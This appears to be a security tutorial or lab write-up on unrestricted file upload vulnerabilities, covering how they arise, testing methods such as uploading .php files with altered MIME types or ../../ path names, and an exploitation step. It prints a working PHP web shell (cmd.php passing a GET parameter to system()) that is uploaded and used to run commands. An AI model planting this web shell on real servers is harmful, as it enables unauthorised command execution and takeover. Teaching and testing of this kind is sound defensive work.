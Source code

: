 #+title: Unrestricted File Upload
#+author:gabriel

* intro
Unrestricted File Upload vulnerabilities arise from the insecure development of file upload functionalities in web applications. n modern web applications, file uploading is a crucial function that allows users to attach files or change their profile pictures.

Unrestricted file upload vulnerabilities occur when an application accepts user-uploaded files without adequate security checks. These vulnerabilities typically arise when the file type, size, name, or content is not verified.

- User File Upload: The user uploads a file (e.g., via a profile picture upload form).
- Insufficient Validation: The uploaded file is not adequately validated in terms of type, size, or content.
- Acceptance of File: The server accepts the file and saves it to a specific directory.
- Attacker Control: An attacker can upload a malicious file to execute arbitrary code or access sensitive data on the server.

- Web Applications: Especially forms or functions that allow users to upload files.
- Content Management Systems (CMS): CMSs that allow users to upload files.
- File Sharing Platforms: Platforms that allow users to upload and share files.
- Operating System Scripts: Scripts that allow users to upload and process files.

 *profile picture upload scenario*  ->
 On a social media platform, users updating their profile pictures can upload a malicious file posing as an image, allowing the attacker to execute commands on the server.

*CV upload scenario* ->
On a job application portal, users uploading their resumes can upload a malicious file disguised as a PDF, leading to server control being compromised by the attacker.


* detecting the vulnerability
The first step in detecting an Unrestricted File Upload vulnerability is to check if the file upload process is properly restricted. The following indicators can suggest that a file upload function is not secure:

- File type validation is missing or inadequate.
- Dangerous characters can be found in uploaded file names and paths.
- File size checks are incomplete or entirely absent.
- Uploaded files are directly accessible and executable.

** testing methods
Various testing methods can be used to detect the vulnerability:

*** filetype validation
- Attempt to upload files of different types (e.g., .jpg, .php, .asp, .exe).
- Check if the server accepts these files.

*** file content validation
- Try uploading files with modified contents (e.g., inserting PHP code into a .gif file).
- Verify how the server processes the content of the uploaded file.

*** MIME type validation
- Attempt to upload files with altered MIME types (e.g., setting the MIME type of a .php file to image/jpeg).
- Check if the server accepts these files.

*** File Name and Path Validation
- Attempt to upload files with dangerous characters in their names and paths (e.g., directory traversal characters like ../../).
- Verify if the server accepts these files and stores them in the correct directory.

*** file size validation
- Attempt to upload very large files.
- Check how the server enforces file size limits and if it accepts large files.

* identifying the vulnerability
To confirm and exploit the vulnerability, attempts will be made to upload malicious files such as web shells with a php extension that could lead to unauthorized operations on the system.

[[./imgs/application.png]]

Since the target system is written in PHP, a web shell file named cmd.php has been prepared using PHP. The source code is provided below:

#+begin_src php cmd.php
<?php
    if (isset($_GET['cmd'])) {
        system($_GET['cmd']);
    }
?>
#+end_src

[[./imgs/uploaded.png]]

It is observed that the shell file has been successfully uploaded to the system without any filtering, indicating the presence of the Unrestricted File Upload vulnerability.

The path of the uploaded file is provided on the screen, allowing shell commands to be executed on the operating system with the given permissions.,

[[./imgs/whoa.png]]


[[./imgs/pwd.png]]
